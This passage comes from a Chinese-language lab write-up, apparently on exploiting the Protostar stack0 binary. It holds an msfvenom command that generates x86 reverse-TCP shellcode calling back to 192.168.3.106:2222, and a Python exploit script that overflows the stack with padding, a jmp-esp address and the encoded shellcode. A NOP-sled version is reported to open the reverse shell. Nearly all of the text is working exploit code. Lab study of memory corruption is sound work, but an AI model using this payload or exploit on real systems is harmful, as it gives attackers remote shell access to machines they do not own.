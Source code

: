 重新由下面语句生成shellcode,由原来的x64改成x86,LPORT改成2222(kali为64位系统,protostar为32位系统)

```
msfvenom -p linux/x86/shell/reverse_tcp LHOST=192.168.3.106 LPORT=2222 -b "\x00" -f py
exploit.py代码如下：
-------------------exploit.py-----------------------
#/usr/bin/python
import os
import sys

buf =  ""
buf += "\xd9\xf6\xd9\x74\x24\xf4\x5e\x31\xc9\xb1\x12\xbb\xbe"
buf += "\x35\xbf\xc5\x31\x5e\x1a\x83\xc6\x04\x03\x5e\x16\xe2"
buf += "\x4b\x04\x64\x32\x50\x34\xd9\xee\xfc\xb9\x6d\x76\x89"
buf += "\x5f\x40\xf7\x1e\xc4\x33\x38\x88\xf8\xa9\xd0\xca\xfe"
buf += "\x25\x8f\x43\x1f\x5f\xa9\x0b\xb0\xf1\x62\x22\xd1\xb1"
buf += "\x41\xb4\xa0\x31\xe3\xb4\xd4\x3d\x13\x3d\x37\xfc\xf8"
buf += "\x31\x79\x1c\xf2\xf9\x04\x2e\x8b\xa2\x7f\x51\x15\xe2"
buf += "\x8c\x22\x25\xc7\x0d\xbd\xcb"

jmp_esp="\x70\xf8\xff\xbf"
#print jmp_esp
input="a"*80+jmp_esp+buf
print input
os.system("echo '%s' | ./stack0" % input)
-----------------end--------------------------------

```

发现还是无法反弹shell,于是在shellcode前加一串nop试试，发现加9个以上的nop（\x90)可以成功反弹shell

加上nop后代码如下:

```
----------------------exploit.py--------------------------
#/usr/bin/python
import os
import sys

buf =  "\x90"*9
buf += "\xd9\xf6\xd9\x74\x24\xf4\x5e\x31\xc9\xb1\x12\xbb\xbe"
buf += "\x35\xbf\xc5\x31\x5e\x1a\x83\xc6\x04\x03\x5e\x16\xe2"
buf += "\x4b\x04\x64\x32\x50\x34\xd9\xee\xfc\xb9\x6d\x76\x89"
buf += "\x5f\x40\xf7\x1e\xc4\x33\x38\x88\xf8\xa9\xd0\xca\xfe"
buf += "\x25\x8f\x43\x1f\x5f\xa9\x0b\xb0\xf1\x62\x22\xd1\xb1"
buf += "\x41\xb4\xa0\x31\xe3\xb4\xd4\x3d\x13\x3d\x37\xfc\xf8"
buf += "\x31\x79\x1c\xf2\xf9\x04\x2e\x8b\xa2\x7f\x51\x15\xe2"
buf += "\x8c\x22\x25\xc7\x0d\xbd\xcb"

jmp_esp="\x70\xf8\xff\xbf"
#print jmp_esp
input="a"*80+jmp_esp+buf
print input
os.system("echo '%s' | ./stack0" % input)
------------------------end-------------------------------

```
